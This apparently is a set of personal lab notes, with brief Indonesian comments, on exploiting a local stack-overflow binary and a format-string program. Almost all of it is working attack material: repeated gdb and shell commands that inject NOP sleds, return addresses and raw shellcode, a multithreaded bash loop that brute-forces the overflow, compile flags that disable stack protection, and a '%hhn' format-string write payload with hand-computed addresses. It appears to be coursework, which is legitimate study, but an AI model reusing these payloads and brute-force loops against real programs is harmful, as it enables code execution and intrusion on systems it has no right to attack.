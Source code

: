 run $(perl -e 'print "\x90"x60, "\x50\xce\xff\xff","\x90"x96,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')




run $(perl -e 'print "\x90"x60, "\x90\xcc\xff\xff","\x90"x96,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')



"\xd9\xed\xd9\x74\x24\xf4\xbf\x6e\x71\x19\x7a\x5a\x31\xc9\xb1\x12\x83\xea\xfc\x31\x7a\x13\x03\x14\x62\xfb\x8f\xd9\x5f\x0c\x8c\x4a\x23\xa0\x39\x6e\x2a\xa7\x0e\x08\xe1\xa8\xfc\x8d\x49\x97\xcf\xad\xe3\x91\x36\xc5\x8c\x61\xc9\x14\x1b\x60\xc9\x07\x87\xed\x28\x97\x51\xbe\xfb\x84\x2e\x3d\x75\xcb\x9c\xc2\xd7\x63\x71\xec\xa4\x1b\xe5\xdd\x65\xb9\x9c\xa8\x99\x6f\x0c\x22\xbc\x3f\xb9\xf9\xbf";



"\xd9\xed\xd9\x74\x24\xf4\xbf\x6e\x71\x19\x7a\x5a\x31\xc9\xb1\x12\x83\xea\xfc\x31\x7a\x13\x03\x14\x62\xfb\x8f\xd9\x5f\x0c\x8c\x4a\x23\xa0\x39\x6e\x2a\xa7\x0e\x08\xe1\xa8\xfc\x8d\x49\x97\xcf\xad\xe3\x91\x36\xc5\x8c\x61\xc9\x14\x1b\x60\xc9\x07\x87\xed\x28\x97\x51\xbe\xfb\x84\x2e\x3d\x75\xcb\x9c\xc2\xd7\x63\x71\xec\xa4\x1b\xe5\xdd\x65\xb9\x9c\xa8\x99\x6f\x0c\x22\xbc\x3f\xb9\xf9\xbf"


run $(perl -e 'print "\x90"x60, "\x90\xcc\xff\xff","\x90"x96,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')



### Nomer 2
./stack "$(perl -e 'print "\x90"x60, "\x50\xce\xff\xff","\x90"x192,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')"
![[Pasted image 20250904182058.png]]
3000 attempt

THREADS=10
for i in $(seq 1 $THREADS); do
    count=1
    while true; do
        echo "Thread $i - Attempt #$count"
        ./stack "$(perl -e 'print "\x90"x60 . "\x50\xce\xff\xff" . "\x90"x192 . "\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')"
        count=$((count+1))
    done &
done

wait

### Nomer 3
![[Pasted image 20250908132328.png]]

run $(perl -e 'print "\x90"x60, "\x50\xce\xff\xff","\x90"x96,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')



#### Nomer 4
gcc -g -o stack_v3 -fno-stack-protector -z noexecstack stack.c


#### Nomer 5
%x.%x.%x.%x.%x.%x.%x.%x.%x
5ac781a0 -> 1523024288
1523024300
1617211808 + 12 = 1617211820

1632031136 + 12 = 1632031148
1608311200 + 12 = 1608311212

1581580704 + 12 = 1581580716

1558331808 + 12 = 1558331820

1564893600 + 12 = 1564893612

1501929888 -> 5985A1A0
1689246172 -> 64AFD9DC

1689248160 -> 64afe1a0

selisi 1988

1691591072 - 1988 = 1691589084


```
%.81x%9$hhn;%.31x%8$hhn
```


gcc -m32 -o format_string format_string.c


![[Pasted image 20250910142219.png]]

12 karna mau nargetin si q nya